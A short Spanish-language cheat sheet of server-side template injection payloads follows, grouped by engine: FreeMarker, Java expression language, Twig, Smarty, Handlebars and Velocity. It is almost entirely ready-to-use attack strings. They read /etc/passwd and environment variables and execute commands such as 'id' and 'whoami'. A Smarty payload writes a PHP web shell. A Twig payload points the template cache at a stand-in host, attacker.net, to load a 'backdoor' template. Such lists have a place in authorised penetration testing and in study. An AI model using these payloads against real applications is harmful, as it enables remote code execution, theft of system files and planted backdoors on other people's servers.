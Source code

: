 Algunos valores que se pueden usar después que el template ha sido identificado es el siguiente
```
-------------------------------------------------------------------
Polyglot:
${{<%[%'"}}%\
-------------------------------------------------------------------
FreeMarker (Java):
${7*7} = 49
<#assign command="freemarker.template.utility.Execute"?new()> ${ command("cat /etc/passwd") }
--------------------------------------------------------------------
(Java):
${7*7}
${{7*7}}
${class.getClassLoader()}
${class.getResource("").getPath()}
${class.getResource("../../../../../index.htm").getContent()}
${T(java.lang.System).getenv()}
${product.getClass().getProtectionDomain().getCodeSource().getLocation().toURI().resolve('/etc/passwd').toURL().openStream().readAllBytes()?join(" ")}
--------------------------------------------------------------------
Twig (PHP):
{{7*7}}
{{7*'7'}}
{{dump(app)}}
{{app.request.server.all|join(',')}}
"{{'/etc/passwd'|file_excerpt(1,30)}}"@
{{_self.env.setCache("ftp://attacker.net:2121")}}{{_self.env.loadTemplate("backdoor")}}
{{_self.env.registerUndefinedFilterCallback("exec")}}{{_self.env.getFilter("id")}}
--------------------------------------------------------------------
Smarty (PHP):
{$smarty.version}
{php}echo `id`;{/php}
{Smarty_Internal_Write_File::writeFile($SCRIPT_NAME,"<?php passthru($_GET['cmd']); ?>",self::clearConfig())}
-------------------------------------------------------------------
Handlebars (NodeJS):
wrtz{{#with "s" as |string|}}
{{#with "e"}}
{{#with split as |conslist|}}
{{this.pop}}
{{this.push (lookup string.sub "constructor")}}
{{this.pop}}
{{#with string.split as |codelist|}}
{{this.pop}}
{{this.push "return require('child_process').exec('whoami');"}}
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}}
{{/with}}
{{/each}}
{{/with}}
{{/with}}
{{/with}}
{{/with}}
-------------------------------------------------------------------
Velocity:
#set($str=$class.inspect("java.lang.String").type)
#set($chr=$class.inspect("java.lang.Character").type)
#set($ex=$class.inspect("java.lang.Runtime").type.getRuntime().exec("whoami"))
$ex.waitFor()
#set($out=$ex.getInputStream())
#foreach($i in [1..$out.available()])
$str.valueOf($chr.toChars($out.read()))
```